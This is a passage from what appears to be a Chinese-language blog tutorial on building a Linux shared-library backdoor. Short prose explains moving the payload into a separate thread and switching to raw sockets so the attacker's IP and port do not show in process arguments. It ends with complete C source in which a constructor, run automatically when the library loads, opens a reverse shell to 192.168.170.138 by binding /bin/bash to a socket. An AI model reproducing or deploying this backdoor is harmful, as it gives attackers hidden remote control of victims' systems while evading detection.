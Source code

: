 ![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201006203506429.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
此时发现测试程序的主线程被bash阻塞了，于是可以采用多线程技术，将后门代码与正常逻辑分离执行。-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201006203522494.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
但利用这种方式在执行的过程中，查看进程参数还是会被查看到IP地址和端口：-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201006203535890.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
查看到IP与端口：-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201006203548233.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
再继续改进代码，采用socket套接字的方式来反弹shell：

    #include <stdio.h>
    #include <dlfcn.h>
    #include <stdlib.h>
    #include <pthread.h>
    #include <stdio.h>
    #include <sys/types.h>
    #include <sys/socket.h>
    #include <unistd.h>
    #include <fcntl.h>
    #include <stdio.h>
    #include <sys/types.h>
    #include <sys/socket.h>
    #include <netinet/in.h>
    #include <netdb.h>
    
    
    static void * hello()
    {
    
        struct sockaddr_in server;
        int sock;
        char shell[]="/bin/bash";
        if((sock = socket(AF_INET, SOCK_STREAM, 0)) == -1) {
            return NULL;
        }
    
        server.sin_family = AF_INET;
        server.sin_port = htons(139);
        server.sin_addr.s_addr = inet_addr("192.168.170.138");
        if(connect(sock, (struct sockaddr *)&server, sizeof(struct sockaddr)) == -1) {
            return NULL;
        }
        dup2(sock, 0);
        dup2(sock, 1);
        dup2(sock, 2);
        execl(shell,"/bin/bash",(char *)0);
        close(sock);
    	printf("I just got loaded\n");
        return NULL;
    }
    
    __attribute__((constructor))
    void loadMsg()
    {
        pthread_t thread_id;
        pthread_create(&thread_id,NULL,hello,NULL);
    }
    